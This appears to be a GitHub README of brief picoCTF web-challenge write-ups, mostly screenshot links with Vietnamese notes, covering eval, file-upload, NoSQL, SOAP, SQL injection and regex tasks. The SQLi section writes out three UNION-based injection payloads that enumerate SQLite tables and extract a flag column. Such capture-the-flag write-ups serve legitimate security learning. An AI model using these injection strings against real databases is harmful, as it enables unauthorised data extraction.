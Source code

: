 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

{ } là kí tự đặt biệt trong regular nên cần có dấu \ đứng trước







